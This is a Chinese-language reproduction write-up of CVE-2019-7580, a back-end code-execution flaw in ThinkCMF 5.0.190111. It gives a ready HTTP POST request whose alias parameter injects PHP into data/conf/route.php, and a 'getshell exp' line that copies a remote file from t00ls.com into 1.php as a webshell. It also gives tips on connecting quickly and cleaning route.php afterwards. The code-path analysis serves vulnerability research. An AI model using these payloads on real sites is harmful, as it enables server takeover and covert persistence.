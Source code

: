 （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 5.0.190111

三、复现过程
------------

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

    POST /portal/admin_category/addpost.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 183
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
    Connection: close

    parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2

2、然后访问：

    /portal/admin_category/index.html

触发

    include data/conf/route.php

操作，执行payload。下图以执行sleep(5)作为演示。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId25.png)

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId26.gif)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

    1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\\data\\conf\\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\\think\\App::run()执行应用。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId30.png)

在App.php的run()函数139行，执行sef::exec();

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId31.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId32.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从\$this-\>request-\>param()函数中得到请求中的参数传递给\$data。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId33.png)

然后通过\$this-\>validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将\$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的\"添加分类\"操作。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId34.png)

在addCategory函数中，184行这一句：

    $findRoute = $this->where('full_url', $fullUrl)->find();

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId35.png)

其中\$fullUrl和\$url的值如截图所示。 继续跟，

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId36.png)

在34行从数据库中查询查询相关数据，

    $routes      = $this->where("status", 1)->order("list_order asc")->select();

在`addCategory`函数的157行调用

    $routeModel->getRoutes(true);

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId37.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId39.png)

这里先

    include app/route.php

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId40.png)

然后，

    include data/conf/route.php

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId41.png)

最终执行我们的payload：`phpinfo()`。

![](./.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId42.png)

参考链接
--------

> <https://xz.aliyun.com/t/3997#toc-6>
>
> <https://www.t00ls.net/thread-55060-1-1.html>
